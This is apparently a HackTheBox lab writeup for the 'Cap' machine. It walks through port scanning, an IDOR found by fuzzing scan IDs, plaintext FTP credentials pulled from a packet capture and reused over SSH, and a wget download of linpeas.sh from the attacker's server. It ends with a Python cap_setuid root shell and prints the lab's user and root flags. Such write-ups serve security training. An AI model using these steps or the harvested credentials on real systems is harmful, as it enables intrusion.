



# Cap - HackTheBox Writeup

[](https://app.hackthebox.com/machines/Cap)
[](#)

> **Challenge Link:** [Cap](https://app.hackthebox.com/machines/Cap)

---

### Task 1

##### How many TCP ports are open?

Let's start with a `rustscan` scan to discover which ports are open on the target IP.

Command:

```bash
❯ rustscan -a cap.htb -- -sCV -oN rustscan
```

We found three TCP ports:

```bash
Open 10.129.122.203:21
Open 10.129.122.203:22
Open 10.129.122.203:80
```

Thus, we found `3` open TCP ports.

### Task 2

##### After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

When we open the IP in a browser, we can see a dashboard with `Nathan` as the user. The question wants us to check which path the "Security Snapshot" redirects us to.


When we click on the Security Snapshot option in the dashboard, we get redirected to the `/data/[id]` route.

### Task 3

##### Are you able to get to other users' scans?

For this, I performed a `wfuzz` scan and got the following results:

Command:

```bash
❯ wfuzz -c -z range,1-100 --hc 404,500 http://cap.htb/data/FUZZ
```

Result:

```
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        370 L    993 W      17146 Ch    "0"
000000003:   200        370 L    993 W      17143 Ch    "2"
000000005:   302        3 L      24 W       208 Ch      "4"
000000002:   200        370 L    993 W      17146 Ch    "1"
```

When we navigate to ID `0`, we can see a different dashboard with different packet counts — this confirms we are able to access other users' scans. This is a classic **IDOR (Insecure Direct Object Reference)** vulnerability.

Answer: **YES**

#### Task 4

##### What is the ID of the PCAP file that contains sensitive data?

> `0`

As we saw in the previous question, navigating to ID `0` reveals a scan containing `72` packets — this is the one with the sensitive data.

Answer: `0`

#### Task 5

##### Which application layer protocol in the `pcap` file can the sensitive data be found in?

To analyze the captured traffic, we load the downloaded PCAP file into `Wireshark`. Since there are only `72` packets, the analysis is straightforward. We can clearly see packets where `nathan` used `FTP` (an application layer protocol) to retrieve a file, leaking his credentials in plaintext.



Credentials:

```
USER: nathan
Pass: Buck3tH4TF0RM3!
```

Thus, the answer for this question is: `FTP`

#### Task 6

##### We've managed to collect nathan's FTP password. On what other service does this password work?

From our initial port scan, we discovered three services:

```
1. FTP  -- port 21
2. SSH  -- port 22
3. HTTP -- port 80
```

We can try reusing Nathan's credentials on `SSH` to obtain a shell.

Answer: `ssh`

#### Submit User Flag

##### Submit the flag located in the nathan user's home directory.

> We got a shell as user `nathan` by logging in through `SSH` with the credentials we extracted.

```shell
Last login: Thu May 27 11:21:27 2021 from [IP]
nathan@cap:~$ whoami
nathan
nathan@cap:~$ ls
user.txt
```

And the flag is: `bb8a3748c888312f059465169c0f6ed9`

#### Task 8

##### What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

For privilege escalation enumeration, we'll transfer `linpeas.sh` to Nathan's shell and run it to identify potential escalation vectors.

I spun up a `python3` HTTP server on my machine to serve the script:

My system:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.122.222 - - [18/Oct/2026 22:10:18] code 404, message File not found
10.129.122.222 - - [18/Oct/2026 22:10:29] "GET /linpeas.sh HTTP/1.1" 200 -
```

Nathan's system:

```bash
nathan@cap:/tmp$ wget http://[IP]:80/linpeas.sh
--2026-10-18 16:40:25--  http://[IP]/linpeas.sh
Connecting to [IP]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1155419 (1.1M) [application/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                      100%[=======================================================================================================>]   1.10M   272KB/s    in 4.2s

2026-10-18 16:40:30 (272 KB/s) - 'linpeas.sh' saved [1155419/1155419]
```

Under the `Files & Capabilities` section of the linpeas output, we can see that `/usr/bin/python3.8` has the `cap_setuid` capability — let's exploit this.



> [!NOTE]
> `CAP_SETUID` allows the process to gain setuid privileges without the SUID bit set. This effectively lets us switch to UID 0 i.e. root. The developer of Cap must have given Python this capability to enable the site to capture traffic, which a non-root user can't do.

We'll use the following Python commands to escalate to a root shell:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

And we got the root shell:

```bash
nathan@cap:/sbin$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:/sbin# whoami
root
root@cap:/sbin#
```

And our root flag is:

```
root@cap:/root# cat root.txt
25b8c3183280ca16aa6f5c8a2910f4ef
```

---

Thus, the room is solved! 🎉
